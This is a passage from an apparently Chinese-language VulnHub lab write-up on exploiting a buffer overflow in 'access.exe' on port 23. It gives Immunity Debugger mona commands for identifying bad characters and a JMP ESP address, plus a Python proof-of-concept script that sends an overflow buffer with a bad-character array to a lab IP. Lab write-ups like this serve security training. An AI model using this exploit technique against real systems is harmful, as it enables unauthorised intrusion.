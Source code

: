 执行`!mona compare -a esp -f  "D:\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin"`

![16](https://static.iihack.com/vulnhub/613/16.png)

```
!mona bytearray -cpb \x00\x4d\x4f\x5f\x79\x7e\x7f
```

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 23
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4e\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x60\x61\x62\x63"
"\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x7a\x7b\x7c\x7d\x80\x81\x82\x83\x84\x85\x86"
"\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6"
"\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6"
"\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6"
"\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
buff = "A"*1902
eip = "B" * 4
buffer = badchars
nullByte = "\x00"
inputBuffer = buff + eip + buffer + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```

再次执行`!mona compare -a esp -f  "D:\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin"`

![17](https://static.iihack.com/vulnhub/613/17.png)

好了 坏字符就是 `\x00\x4d\x4f\x5f\x79\x7e\x7f` 了

### poc6.py

![18](https://static.iihack.com/vulnhub/613/18.png)

这里

```
!mona find -s "\xff\xe4" -m "access.exe"
```
